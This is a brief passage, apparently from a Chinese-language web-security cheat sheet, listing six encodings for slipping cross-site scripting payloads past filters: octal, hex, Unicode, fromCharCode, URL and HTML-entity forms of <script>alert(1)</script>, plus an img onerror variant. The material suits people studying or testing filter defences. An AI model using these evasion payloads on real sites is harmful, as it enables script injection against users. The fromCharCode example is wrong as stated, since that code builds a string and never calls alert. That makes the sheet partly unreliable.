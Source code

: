 
## 0x09 XSS绕过

#### 1. JS八进制编码

```
\074\163\143\162\151\160\164\076\141\154\145\162\164\050\061\051\074\057\163\143\162\151\160\164\076
相当于
<script>alert(1)</script>
```

#### 2. JS十六进制编码

````
\x3c\x73\x63\x72\x69\x70\x74\x3e\x61\x6c\x65\x72\x74\x28\x31\x29\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e
相当于
<script>alert(1)</script>
````

#### 3. fromCharCode函数编码

可以利用hackerbar的XSS编码功能中的：js String.fromCharCode编码

```
<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41)</script>
相当于
<script>alert(1)</script>
```

#### 4. unicode编码

```
\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e
相当于
<script>alert(1)</script>

# 示例
\u003cimg src=1 onerror=alert(/xss/)\u003e
```

#### 5. URL编码

```
%3Cscript%3Ealert%281%29%3C%2Fscript%3E
相当于
<script>alert(1)</script>
```

#### 6. html编码

利用hackerbar的XSS编码功能：HTML实体编码

```
&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;
相当于
<script>alert(1)</script>
```
